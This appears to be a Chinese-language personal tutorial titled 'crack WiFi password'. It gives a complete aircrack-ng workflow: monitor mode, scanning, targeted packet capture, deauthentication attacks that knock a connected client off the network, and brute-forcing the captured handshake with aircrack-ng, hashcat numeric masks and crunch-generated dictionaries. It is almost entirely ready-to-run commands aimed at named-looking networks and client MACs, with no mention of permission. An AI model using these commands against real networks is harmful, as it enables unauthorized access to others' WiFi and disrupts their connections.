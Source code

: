 # 破解 WIFI 密码

### 0. 查wlan0支持模式中有无监听（monitor）模式

~~`sudo iwconfig wlan0 mode`~~

经实践，此命令不能查(Debian)

### 1. 改成监听模式(改后wlan0就成了wlan0mon)

`sudo airmon-ng start wlan0`

### 2. 查看周围无线信息(也可以指定信道排除想排除的，例如 -c 1，只看信道为1的wifi连接情况;--bssid WIFI的MAC，只看某个WIFI的连接情况。)

`sudo airodump-ng wlan0mon`

记一两组想破解的BSSID（WIFI的MAC）和STATION（已连接的客户端MAC）

现以 `80:8F:1D:83:42:76` 和 `90:AD:F7:FA:8E:10` 为例。

最好也把WIFI名称（SSID）也记下来，例如：TP-LINK_4275，以备后用。

### 3. 模拟抓包(--ivs 包文件的格式为ivs，-c 指定为1信道，-w 指定包文件包为wifipass)

`sudo airodump-ng --ivs -c 1 -w wifipass --bssid 80:8F:1D:83:42:76 wlan0mon`

此窗口不要关，再开窗口发攻击包，观察这里的右上角，看有无出现 handshake ，出现则是包被抓到，未出现则继续增加攻击包。

### 4. 发攻击包（-0 发99个包，不够再加，赋值为0的话就是一直发）

`sudo aireplay-ng -0 99 -a 80:8F:1D:83:42:76 -c 90:AD:F7:FA:8E:10 wlan0mon`

### 5. 跑密码
两种方式：
1. 用air自带的方式，需要字典文件 dict.txt，比较慢。

    `sudo aircrack-ng wifipass-01.ivs -w dict.txt`

2. 用 hashcat  的方式， -m 2500 就是模式为 WPA

    先用 aircrack-ng 转换包的格式
    
    `sudo aircrack-ng wifipass-01.ivs -J wifipass.hccap`

    再用 hashcat 跑8位的纯数字密码（进度可以按s查看）
    
    `hashcat -m 2500 -a 3 wifipass.hccap ?d?d?d?d?d?d?d?d`

    hashcat 字典模式
    
    `hashcat -m 2500 wifipass.hccap dict.txt`

    用 crunch 生成8位和9位的纯数字字典（第1个8为最少8位，第2个9为最多9位）
    
    `crunch 8 9 0123456789 -o dict.txt`

### 6. 退出监听模式
`sudo airmon-ng stop wlan0mon`

TP-LINK_4275
80:8F:1D:83:42:76
90:AD:F7:FA:8E:10

### 7. 示例 
监听 `wlan1mon` 信号为 `CMCC-pbHs` 信道为 `11` 无线路由（AP）的MAC为 `AC:5A:EE:D3:FC:C0` 包保存到 `CMCC-pbHs.ivs` 文件

`sudo airodump-ng wlan1mon --essid CMCC-pbHs -c 11 --bssid AC:5A:EE:D3:FC:C0 --ivs -w CMCC-pbHs`
